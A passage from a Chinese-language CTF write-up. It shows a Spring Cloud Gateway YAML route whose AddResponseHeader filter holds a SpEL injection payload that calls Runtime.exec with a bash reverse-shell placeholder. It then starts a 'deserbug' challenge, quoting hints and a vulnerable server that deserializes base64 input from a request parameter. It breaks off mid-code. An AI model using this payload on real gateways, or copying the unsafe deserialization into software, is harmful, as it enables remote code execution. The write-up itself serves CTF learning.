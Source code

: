 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920215507692.png)

yaml也能打

```json
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://service-provider
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(bash反弹shell).replaceAll('\n','').replaceAll('\r','')}"
```



## deserbug

题目hint：

**1 . cn.hutool.json.JSONObject.put->com.app.Myexpect#getAnyexcept**

**2. jdk8u202**

先读一下主函数Testapp，开放8888端口，接收bugstr参数。对bugstr进行base64解码，反序列化。这里存在一个反序列化漏洞

```java
public class Testapp {
    public Testapp() {
    }

    public static void main(String[] args) {
        HttpUtil.createServer(8888).addAction("/", (request, response) -> {
            String bugstr = request.getParam("bugstr");
            String result = "";
            if (bugstr == null) {
                response.write("welcome,plz give me bugstr", ContentType.TEXT_PLAIN.toString());
            }

            try {
                byte[] decode = Base64.getDecoder().decode(bugstr);
                ObjectInputStream inputStream = new ObjectInputStream(new ByteArrayInputStream(decode));
                Object object = inputStream.readObject();
                result = object.toString();
            } catch (Exception var8) {
                Myexpect myexpect = new Myexpect();
                myexpect.setTypeparam(new Class[]{String.class});
                myexpect.setTypearg(new String[]{var8.toString()});
                myexpect.setTargetclass(var8.getClass());

                try {
                    result = myexpect.getAnyexcept().toString();
                } catch (Exception var7) {
                    result = var7.toString();
                }
            }

            response.write(result, ContentType.TEXT_PLAIN.toString());
```